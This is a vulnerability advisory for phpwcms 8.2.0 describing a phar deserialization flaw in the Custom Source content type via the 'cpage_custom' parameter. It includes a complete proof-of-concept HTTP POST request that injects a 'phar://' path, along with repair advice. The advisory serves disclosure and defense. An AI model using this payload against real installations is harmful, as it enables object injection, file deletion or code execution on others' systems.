

# `phar` deserialization vulnerability in `cnt21.readform.inc.php#is_file`

## 0x01 Affected version
vendor: https://github.com/slackero/phpwcms

version: 8.2.0

php version: 7.x

## 0x02 Vulnerability description

The phpwcms Content Management System is vulnerable to PHP Object Injection in the article content type 21 (Custom Source Tab) through deserialization of untrusted input. An attacker can provide a malicious PHAR URL via the 'cpage_custom' parameter in the content editing form, which is passed directly to the is_file() function without proper validation. This vulnerability allows attackers to inject PHP Objects through a PHAR file or utilize various PHP stream wrappers for side-channel attacks. Attackers could potentially delete files, access sensitive information, or execute arbitrary code depending on the available gadgets. This vulnerability can be exploited by attackers with access to the phpwcms admin interface. The attack requires a valid CSRF token to be included in the request.



```text
POST /phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&aktion=2&id=1 HTTP/1.1
Host: dem0.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://dem0.com/phpwcms.php?csrftoken=d20e0993a60841067fe209bd82884f24&do=articles&p=2&s=1&id=1
Origin: http://dem0.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Cookie: phpwcmsBELang=en; PHPSESSID=ndprgg1lkuk77l5vrhdbejep2e
Cache-Control: max-age=0
Content-Length: 219

csrf_token_name=csrf6825cb2230f394.61788130&csrf_token_value=08854df019d6a36b5c096237306340b9c93a9751bc99487c0fd94541ff60f09898f95d44b72a50766972de827e7ae15b9feb13d6a88801f6c9280a03a98632fa&ctype=21&csorting=0&caktion=1&cpage_source=1&caid=1&cpage_custom=phar%3A%2F%2F..%2F..%2Fexp.phar&ctitle=2&csubtitle=3&ccomment=4&cpaginate_title=5&cbefore=&cafter=&cid=1&clivedate=&ckilldate=&cblock=2
```

## 0x03 Repair suggestions
To prevent the exploitation of this vulnerability, it is important to implement proper input validation for the 'cpage_custom' parameter. The application should restrict the protocols that can be used with is_file() to only allow safe values, explicitly blocking dangerous protocols like 'phar://', 'php://', and other potentially malicious stream wrappers. Additionally, implementing a whitelist approach that only allows specific protocols (such as 'http://' and 'https://') would provide stronger protection. Proper sanitization and validation of user input are critical for mitigating this risk.
